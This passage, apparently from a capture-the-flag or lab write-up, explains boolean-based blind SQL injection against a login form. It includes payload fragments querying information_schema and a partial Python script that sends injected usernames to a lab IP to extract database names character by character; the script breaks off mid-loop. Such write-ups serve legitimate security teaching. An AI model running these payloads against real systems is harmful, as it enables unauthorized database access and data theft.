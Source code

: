 - To get all the database names: `select schema_name from information_schema.schemata`

- We add `limit 0,1` to only get the first database name; the first argument is the offset, and the second one is the row count.

- Then we use the `substr` function to only get a single character from the value returned. In this case, `substr(<data>,1,1)` to only get the first character. The second argument is the start index, and the third argument is the length.

- After this, we would loop over every possible character and change the `<char_to_test>` with that. If the payload returned false, the response would include `Invalid username or password`, and by finding the response that does not include this message, we would know the first character of database name.

Now, we would move onto testing the second character by incrementing the start argument in our `substr` function by one, and once again, we would have to try every possible character. After doing this for every character in the current database name and extracting it, we would move onto the second database name by incrementing the offset in the limit clause and doing it over again.

Doing this manually is tedious, so I have written a Python script that does this with minor changes.

>Instead of getting the character and comparing it to another character, I have used the `ord` function to compare their ascii values. This was due to getting false positives with character comparisons related to casing.
{: .prompt-warning }

I have also added some functions: `get_count` to get the count of rows returned from the query and `get_value_len` to get the length of a value before starting to extract it. They are not necessary, but useful.

```python
#!/usr/bin/env python3

import requests

target_url = "http://10.10.80.186/index.php"
valid_username = "jxf"

def send_payload(data):
	r = requests.post(target_url, data=data)
	if "Invalid username or password" not in r.text:
		return True
	return False

def get_count(column, database_table, sql_filter = ""):
	for i in range(1, 10):
		if send_payload({"username":f"{valid_username}' and (select count({column}) from {database_table} {sql_filter})={str(i)}-- -","password":"asd"}):
			return i
	return 0

def get_value_len(index, column, database_table, sql_filter = ""):
	for i in range(1, 30):
		if send_payload({"username":f"{valid_username}' and length((select {column} from {database_table} {sql_filter} limit {str(index)}, 1))={str(i)}-- -","password":"asd"}):
			return i
	return 0

def extract_values(column, database_table, sql_filter = ""):
	values = []
	value_row_count = get_count(column, database_table, sql_filter)
	for value_row_index in range(value_row_count):
		value = ""
		value_len = get_value_len(value_row_index, column, database_table, sql_filter)
		for char_index in range(value_len):
			for char_ord in range(32,127): # Ascii values for non-special characters. 
```